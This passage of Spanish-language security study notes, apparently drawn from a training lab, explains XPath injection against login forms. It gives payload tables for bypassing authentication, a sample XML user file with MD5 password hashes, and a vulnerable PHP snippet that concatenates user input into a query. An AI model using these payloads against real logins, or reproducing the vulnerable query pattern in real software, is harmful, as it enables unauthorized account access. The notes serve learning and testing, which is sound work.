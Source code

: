 |**Payload**|**Query**|**Condicion**|
|:-----:|:------:|:----:|
|`' or '1'='1`|`/users/user[username/text()='' or '1'='1' and password/text()='' or '1'='1']`|Esto da como resultado todos los usuarios del documento XML y toma el primero para loguearse|
|`admin' or '1'='1` (solo en el campo usuario)|`/users/user[username/text()='admin' or '1'='1' and password/text()='abc']`|Aqui forzamos loguearnos como el usuario **admin** (o con cualquier otro que sepamos que existe)|

En escenarios del mundo real, las contraseñas a menudo se cifran. Además, es posible que no conozcamos un nombre de usuario válido, por lo tanto, no podemos usar las cargas útiles mencionadas anteriormente.

Considere el siguiente ejemplo:

```xml
<users>
	<user>
		<name first="Kaylie" last="Grenvile"/>
		<id>1</id>
		<username>kgrenvile</username>
		<password>8a24367a1f46c141048752f2d5bbd14b</password>
	</user>
	<user>
		<name first="Admin" last="Admin"/>
		<id>2</id>
		<username>obfuscatedadminuser</username>
		<password>21232f297a57a5a743894a0e4a801fc3</password>
	</user>
	<user>
		<name first="Academy" last="Student"/>
		<id>3</id>
		<username>htb-stdnt</username>
		<password>295362c2618a05ba3899904a6a3f5bc0</password>
	</user>
</users>
```

codigo PHP ahora cifra la contraseña:

```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . md5($_POST['password']) . "']";
$results = $xml->xpath($query);
```

los payloads anteriores no funcionarian, por lo que hay que usar payloads mas avanzados:

|**Payload**|**Query**|**Condicion**|
|:-----:|:------:|:----:|
|`' or true() or '`|`/users/user[username/text()='' or true() or '' and password/text()='59725b2f19656a33b3eed406531fb474']`|Provoca un universal **true** y entrariamos como el primer usuario existente|
|`' or position()=2 or '` (solo campo usuario)|`/users/user[username/text()='' or position()=2 or '' and password/text()='59725b2f19656a33b3eed406531fb474']`|Podemos iterar sobre el documento XML para entrar con un cierto usuario, en este caso como el segundo nodo usuario|
|`' or contains(.,'admin') or '`|`/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='59725b2f19656a33b3eed406531fb474']`|Esta consulta devuelve todos los nodos de usuario que contienen la cadena `admin` en cualquier descendiente (para intentar ingresar como un usuario en especifico)|

### DATA EXFILTRATION

### BLIND EXPLOTATION